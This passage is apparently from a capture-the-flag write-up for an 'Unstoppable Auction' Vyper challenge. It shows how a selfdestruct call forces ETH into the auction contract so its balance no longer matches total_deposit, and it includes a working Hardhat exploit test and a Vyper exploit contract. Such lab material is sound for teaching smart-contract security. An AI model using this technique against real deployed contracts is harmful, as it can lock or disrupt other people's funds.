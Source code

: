 The answer is **YES**. It's possible to send the balance of a contract to another one by calling `selfdestruct`. This way, no code is executed on the receiver contract, and thus the `__default__` fallback will not be called. However, the balance of the contract that calls `selfdestruct` will be transferred to the target contract. It means if we call `selfdestruct` from a contract we control (that has some balance) and we set the receiver to be the auction contract, we will update the auction balance but not the `total_deposit` variable, making the condition at line `42` false.


## 3) Solution

The solution consists of two steps:
- send some ETH to our contract so that its balance will be `> 0` 
- execute the `run` function of our contract that will call `selfdestruct` specifying the receiver as the auction contract

`unstoppable-auction.challenge.js`:
```javascript

    it('Exploit', async function () {
        // YOUR EXPLOIT HERE

        let exploit = await (
            await ethers.getContractFactory('UnstoppableAuctionExploit', deployer)
        ).deploy(this.auction.address)


        let tx = {
            to: exploit.address,
            value: ethers.utils.parseEther("0.001"),
            gasLimit: 50000
        }

        await attacker.sendTransaction(tx)


        await exploit.connect(attacker).run();

    })

```


`UnstoppableAuctionExploit.vy`:
```python

# YOUR EXPLOIT HERE
@external
def run():
    selfdestruct(self.target)


@external
@payable
def __default__():
    pass

```
